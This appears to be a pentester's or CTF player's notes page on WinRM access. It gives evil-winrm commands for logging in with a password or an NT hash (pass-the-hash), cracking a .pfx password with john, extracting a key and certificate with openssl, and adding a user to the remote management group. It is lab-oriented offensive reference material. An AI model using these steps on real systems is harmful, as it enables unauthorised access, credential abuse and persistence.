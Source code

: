 # WinRM

usually this is a sign that you have to win-rm inside to exfiltrate stuff or enumerate further. You need creds so come back when you have them
- 5986 is SSL so to log in you need to enable the -S flag to evil-winrm
- sometimes you may get .pfx files in which you do the following for authentication

Use the evil-winrm tool to winrm in. Evil-winrm provides a lot of QoL with its upload and download function.

Though for some reason I could never get mimikatz (sometimes sharphound too) to work in a evil-winrm shell so I usually use it to spawn a normal shell using msfvenom.

```bash
# usual syntax with creds

evil-winrm -i <target ip> -u user -p password

# pass the hash only uses the second half of the hash (NT)
evil-winrm -i <target ip> -u user -H NThash

# if password protected

pfx2john <pfx file> > pfx.hash

john pfx.hash -w=rockyou.txt

# Need to convert the pfx file to get both the public cert and the private key

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem

# with the two above you can use it to login to winrm

evil-winrm -i 10.129.227.105 -c certificate.pem -k priv-key.pem -S -r <hostname>

```

- if you have admin rights or potato (SeImpersonate) powers, you can enable WinRM:

```powershell

# in an elevated powershell
Enable-PSRemoting -Force 

# add user to remote management users grop

net localgroup "remote management users" root /add

```
